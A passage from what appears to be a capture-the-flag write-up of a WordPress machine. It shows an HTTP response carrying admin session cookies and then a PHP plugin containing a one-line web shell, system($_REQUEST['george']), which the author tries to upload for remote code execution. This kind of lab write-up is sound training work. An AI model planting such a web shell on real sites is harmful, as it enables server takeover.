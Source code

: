 ```php
HTTP/1.1 200 OK
Server: nginx/1.10.0 (Ubuntu)
Date: Sun, 24 Sep 2023 09:57:10 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Set-Cookie: wordpress_sec_4a881878556bfa5bb532816568f34de7=admin%7C1695722230%7CvXxgTW4a0vpzSpdhkUT9vIqN40TGXIMUwm1s5VYhrkp%7Cf2734b63f489b780c59a4728b1c790d0dce3919bb57969a09a4bab0d4604c64d; path=/wp-content/plugins; secure; HttpOnly
Set-Cookie: wordpress_sec_4a881878556bfa5bb532816568f34de7=admin%7C1695722230%7CvXxgTW4a0vpzSpdhkUT9vIqN40TGXIMUwm1s5VYhrkp%7Cf2734b63f489b780c59a4728b1c790d0dce3919bb57969a09a4bab0d4604c64d; path=/wp-admin; secure; HttpOnly
Set-Cookie: wordpress_logged_in_4a881878556bfa5bb532816568f34de7=admin%7C1695722230%7CvXxgTW4a0vpzSpdhkUT9vIqN40TGXIMUwm1s5VYhrkp%7Cde6925285badc4eec9f36be9e79b89fa98ea3c298860b76df37d52d10885540a; path=/; secure; HttpOnly
Content-Length: 0
```
The site loads an empty page but on visiting the main page we see the admin pannel appear. Cool we now have access to the admin page.

![wp-admin](/assets/img/brainfuck/admin_access.png)

### RCE Test

At this point I figured out why not test for an Remote Code Execution. Below is what i tried.

#### Plugin Upload

I created a new plugin and named it as george.php

```php
<?php
 /*
 Plugin Name: george Plugin
 Version: 1.0.0
 Author: george
 Author URI: wordpress.org
 License: GPL2
 */
system($_REQUEST["george"]);
?>
```
Now i will add this to a zip file and upload it to wordpress. This fails with the error directory not writeable
